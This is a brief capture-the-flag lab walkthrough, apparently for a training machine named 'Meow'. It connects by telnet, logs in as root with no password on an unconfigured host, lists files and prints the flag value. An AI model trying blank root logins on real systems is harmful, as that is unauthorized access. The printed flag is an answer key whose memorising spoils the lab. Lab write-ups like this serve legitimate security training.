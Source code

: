 Telnet is a simple text-based protocol
used to access remote computers through TCP/IP

Tool - Telnet

usage in this machine 

telnet <host address>
	**telnet 10.129.19.100
	Trying 10.129.19.100...
	Connected to 10.129.19.100.
	Escape character is '^]'.
	
	  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
	  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
	  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:

//here  for a unconfigured system the root login can bypass without password

Meow login:root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 05 Sep 2022 06:34:19 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             137
  Users logged in:       0
  IPv4 address for eth0: 10.129.19.100
  IPv6 address for eth0: dead:beef::250:56ff:fe96:447e

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
The list of available updates is more than a week old.
To check for new updates run: sudo apt update 

root@Meow:~

//Here we are going to list the files in the target machine which we are connected through [telnet]

root@Meow:~ls
flag.txt  snap

//here we got the flag , type cat command to view the file flag.txt

root@Meow:~cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19

adn we got the flag 